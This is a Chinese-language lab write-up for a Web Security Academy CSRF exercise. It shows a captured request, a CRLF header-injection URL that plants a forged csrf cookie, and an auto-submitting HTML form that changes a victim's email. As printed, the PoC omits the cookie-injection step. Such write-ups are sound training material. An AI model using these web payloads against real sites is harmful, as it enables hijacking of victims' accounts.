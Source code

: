 ```http
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a34008503e46e188031211b00cf0077.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

email=1234%40123.com&csrf=WQfYVQ6plfFkisnk6YJovTt7ogkMFxCO
```

 将请求发送到 Burp Repeater，并观察到csrf body参数的值只是通过与 csrf cookie 进行比较来验证

（删除任意一个以后都会报400，少参数）

<img src=".\图片\Snipaste_2023-07-29_11-55-44.png" alt="Snipaste_2023-07-29_11-55-44" style="zoom:80%;" />

执行页面搜索功能，将结果请求发送到 Burp Repeater，并观察搜索词是否反映在Set-Cookie报头中。由于搜索功能没有CSRF保护，可以使用它将cookie注入受害用户的浏览器

创建一个URL，利用此漏洞将伪造的csrf Cookie注入受害者的浏览器：

```
/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None
```

生成 poc

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a34008503e46e188031211b00cf0077.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="12345&#64;123&#46;com" />
      <input type="hidden" name="csrf" value="WQfYVQ6plfFkisnk6YJovTt7ogkMFxCO" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

